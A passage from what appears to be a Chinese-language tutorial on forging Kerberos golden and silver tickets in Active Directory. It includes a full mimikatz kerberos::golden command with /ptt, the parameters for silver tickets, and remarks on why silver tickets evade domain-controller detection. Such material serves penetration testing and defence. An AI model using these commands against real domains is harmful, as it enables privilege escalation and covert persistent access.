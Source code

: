 ```

企业管理员SID：S-1-5-21 <DOMAINID> -519（只有在森林根域中创建伪造票证时才有效，但为AD森林管理员权限添加使用/ sids参数）

组策略创建者所有者SID：S-1-5-21 <DOMAINID> -520

命令格式如下：

kerberos :: golden / user：ADMIINACCOUNTNAME / domain：DOMAINFQDN / id：ACCOUNTRID / sid：DOMAINSID / krbtgt：KRBTGTPASSWORDHASH / ptt

命令示例：
.\mimikatz “kerberos::golden  /user:DarthVader  /domain:rd.lab.adsecurity.org  /id:500 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321  /ptt” exit
```

**2.0 白银票据的原理和条件**
==================

`银票`是`伪造`的`票证授予服务票`，也称为`服务票`。

如下图所示，与`域控制器`之间没有`AS-REQ` / `AS-RE`P（步骤 1 和 2），也没有`TGS-REQ` / `TGS-REP`（步骤 3 和 4）`通信`。由于`白银票据`是伪造的`TGS`，因此无法与`域控制器`通信。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5updBLL11T9usdYBOeehSzBz2eOkWUFjsJ1VPlkgqIa6htiamkb9NJkw/640?wx_fmt=png)

该`Kerberos的银票`是`有效`的`票证授予服务（TGS）Kerberos票据`，它是`加密`/`通过`与`配置`的`服务帐户`登录`服务主体`名称为每个`服务器`与`Kerberos身份验证`的`服务`运行。

`黄金票证`是`伪造`的`TGT`，可有效`访问`任何`Kerberos服务`，而`银票`证是`伪造`的`TGS`。这意味着`银票`范围仅限于`特定服务器`上针对的`任何服务`。

使用`域Kerberos服务帐户（KRBTGT）`对`黄金票证`进行`加密`/`签名`时，通过`服务帐户`（从计算机的`本地SAM`或`服务帐户凭据`中提取的`计算机帐户凭据`）对`银票`进行`加密`/`签名`。

大多数`服务`不会验证`PAC`（通过将`PAC校验`和`发送`到`域控制器`以进行`PAC验证`），因此使用`服务帐户密码哈希`生成的`有效TGS`可以包含`完全虚构`的`PAC`- 甚至声称`用户`是`域管理员`。

`TGS`是`伪造`的，因此没有关联的`TGT`，这意味着不用链接`DC`，任何`事件日志`都位于`目标服务器`上。`尽管范围比金牌更有限，但所需的哈希值更容易获得，并且在使用时与DC没有通信，因此检测比`黄金票证`更困难`。

**2.1 条件**
----------

当拥有`Server Hash`时，我们就可以伪造一个不经过`KDC`认证的一个`Ticket`。

```
/target –目标服务器的FQDN

FQDN：(Fully Qualified Domain Name)全限定域名：同时带有主机名和域名的名称。（通过符号“.”）

/service –运行在目标服务器上的kerberos服务，该服务主体名称类型如cifs，http，mssql等

/rc4 –服务的NTLM散列（计算机帐户或用户帐户）
> PS:Server Session Key在未发送Ticket之前，服务器是不知道Server Session Key是什么的。
> 所以，一切凭据都来源于Server Hash。
```
